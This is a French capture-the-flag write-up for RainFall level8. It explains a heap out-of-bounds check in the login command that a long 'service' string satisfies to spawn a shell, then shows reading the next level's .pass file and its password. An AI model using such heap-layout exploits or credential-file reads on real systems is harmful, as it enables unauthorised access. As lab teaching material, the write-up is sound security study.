 # level8: Exploitation de la disposition du Heap

## Aperçu du Challenge

Level8 présente un programme qui gère l'authentification et les services, avec une vulnérabilité dans ses modèles d'accès mémoire. Le programme accepte des commandes sous forme de chaînes de caractères et permet de configurer les variables auth et service, puis de les vérifier pour une connexion.

## Analyse du Code Source

Le programme maintient deux pointeurs globaux:

```c
char *auth = NULL;
char *service = NULL;
```

Et implémente quatre commandes:

```c
// Gestion de la commande "auth "
if (strncmp(input_buffer, "auth ", 5) == 0) {
    auth = malloc(4);  // Alloue seulement 4 octets!
    // ...initialisation et copie de l'entrée...
}
// Gestion de la commande "service"
else if (strncmp(input_buffer, "service", 7) == 0) {
    service = strdup(input_buffer + 7);  // Allocation sur le heap
}
// Gestion de la commande "login" - vulnérabilité principale
else if (strncmp(input_buffer, "login", 5) == 0) {
    // Vulnérabilité: auth fait seulement 4 octets mais on vérifie 32 octets plus loin
    if (auth != NULL && *(int*)(auth + 32) != 0) {
        system("/bin/sh");
    } else {
        fwrite("Password:\n", 1, 10, stdout);
    }
}
```

## Vulnérabilité

La vulnérabilité se trouve dans la logique de la commande `login`, qui vérifie la mémoire 32 octets après l'allocation de `auth`:

```c
if (auth != NULL && *(int*)(auth + 32) != 0) {
    system("/bin/sh");
}
```

Le pointeur `auth` ne pointe que vers une région de 4 octets, donc vérifier `auth + 32` est une vérification de mémoire hors limites. Cela crée une opportunité de manipuler la disposition du heap pour contrôler ce qui se trouve à cet emplacement.

## Exploitation

L'exploitation profite de la façon dont la mémoire heap est allouée:

1. Utiliser `auth` pour allouer un petit buffer (4 octets)
2. Utiliser `service` avec une entrée volumineuse pour allouer de la mémoire qui se superposera avec `auth + 32`
3. Utiliser `login` pour déclencher le shell lorsque la valeur à `auth + 32` n'est pas nulle

Le programme affiche utilement les adresses à chaque étape:

```
level8@RainFall:~$ ./level8
(nil), (nil)                # Les deux pointeurs commencent comme NULL
auth A                      # Création de auth avec un contenu minime
0x804a008, (nil)           # auth est maintenant alloué à 0x804a008
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018      # service alloué à 0x804a018
login                      # Appel à login - la vérification à auth+32 n'est pas nulle
$                          # Shell accordé!
```

En examinant les adresses, on peut voir:

- `auth` est à 0x804a008
- `service` est à 0x804a018
- La mémoire à `auth + 32` (0x804a028) contiendra des données non nulles de notre chaîne service

## Obtention du Mot de Passe

Une fois le shell obtenu, on récupère le mot de passe:

```bash
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

## Passage au Niveau Suivant

Utilisez le mot de passe pour vous connecter au level9:

```bash
level8@RainFall:~$ su level9
Password: c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
level9@RainFall:~$
```

